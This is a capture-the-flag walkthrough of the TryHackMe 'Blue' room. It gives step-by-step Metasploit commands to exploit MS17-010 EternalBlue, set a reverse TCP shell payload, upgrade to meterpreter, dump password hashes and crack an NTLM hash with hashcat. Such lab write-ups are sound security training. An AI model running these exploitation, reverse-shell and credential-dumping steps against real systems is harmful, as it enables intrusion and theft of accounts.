# THM-Blue Walkthrough

<center>  Deploy & hack into a Windows machine, leveraging common misconfigurations issues. 

 

</center>
### Question 1 : Scan the machine

**No Answer Needed**
To scan the machine run this command 
  ```
  nmap -sV -sT -sC <Target-ip>
  ```
  nmap - network mapper <br>
  -sV - nmap flag used to identify Service Version <br>
  -sT - nmap flag to perform a TCP handshake <br>
  -sC - nmap flag used to scan for vulnerability

### Question 2: How many ports are open with a port number under 1000?

As seen in the image below there are

Ans : **3**
<center>


</center>

### Question 3 : What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

The intro of the room is already hinting at what CVE this, but i did it this way

start up metasploit-Framework with the command 

```
msfconsole
```


Next search for Eternalblue using the command 

```
  search eternalblue
```


Now we will make use of an auxilary scanner to determine if the Target machine is vulernable using the command 

```
use 24
```



Use the **show options** command to view what we can do



next enter the command 

```
set RHOSTS <Target ip>
```


the enter **run**



This proves that the target machine is vulernabel to **MS17-010** , therefore the Answer to Question 3.

### Question 4 : Start Metasploit

**No Answer Needed**

### Question 5 :Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

Ans = **exploit/windows/smb/ms17_010_eternalblue**

And in other to use the expliot we use the command 

```
use 0 
```



### Question 6 :Show options and set the one required value. What is the name of this value? (All caps for submission)

Enter 
```
show options
```



Next set the tartget machine using this command

```
set RHOSTS <Target-ip>
```


Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

```
set payload windows/x64/shell/reverse_tcp
```

With that done,  Enter **run** or **exploit**



### Task 3 : Escalate 

### Step 1 If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

Answer : **post/multi/manage/shell_to_meterpreter**


### Step 2 Select this (use MODULE_PATH). Show options, what option are we required to change?

Answer : **SESSION**
 
### Step 3 Set the required option, you may need to list all of the sessions to find your target here. 

No Answer Needed

 ```
 set SESSION 1
 ```
 ```
 set LHOST <Your-IP>
 ```


### Step 4 Run! If this doesn't work, try completing the exploit from the previous task once more.

No Answer Needed

 
### Step 5 Once the meterpreter shell conversion completes, select that session for use.

No Answer Needed


```
sessions -i 2
```
This command selects the second session.

### Step 12 Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

No Answer Needed

### Step 13 List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

No Answer Needed


Process : **3040 conhost.exe**

### Step 14 Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

No Answer Needed



### Task 4  : Cracking
Dump the non-default user's password and crack it!

Answer the questions below

### Question 7 Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 


**Jon (Username)** : The name of the account. <br>
**1000 (RID)**:unique ID for the user on that specific machine.500 is usually the built-in Administrator; <br>

**aad3b435... (LM Hash)**: This is an older, very weak hashing method (LanManager). On modern Windows systems (like the one in the Blue room), this is usually disabled, so you see this exact "dummy" string, which essentially means "empty." <br>

**ffb43f0d... (NTLM Hash)** : This is the gold mine. This is the modern NT hash of the password (alqfna22). This is what you actually crack or use in "Pass-the-Hash" attacks. <br>

**::: (Placeholders)**: These empty fields are reserved for other info like account comments or home directory paths, but they are almost always empty in a dump.

Answer: **Jon**

### Question 7 Copy this password hash to a file and research how to crack it. What is the cracked password?
  
 To Crack the password  i used hashcat

 ```
 hashcat -m 1000 ffb43f0de35be4d9917ac0cc8ad57f8d /usr/share/wordlists/rockyou.tx
 ```
-m 1000 - NTLM mode 
  



Answer : **alqfna22**

### Task5 Find Flag!

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!
-----------------------------------------------------------------

### Completed Blue? Check out Ice: Link
You can check out the third box in this series, Blaster, here: Link
Answer the questions below

### Question 8 Flag1? This flag can be found at the system root. 



Answer : **flag{access_the_machine}**

### Question 9 Flag2? This flag can be found at the location where passwords are stored within Windows.*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

**path C:\Windows\System32\config\flag2.txt**

**Answer : flag{sam_database_elevated_access}**

### Question 10 flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved

**path C:\Users\Jon\Documents\flag3.txt**

**Answer : flag{admin_documents_can_be_valuable}** 
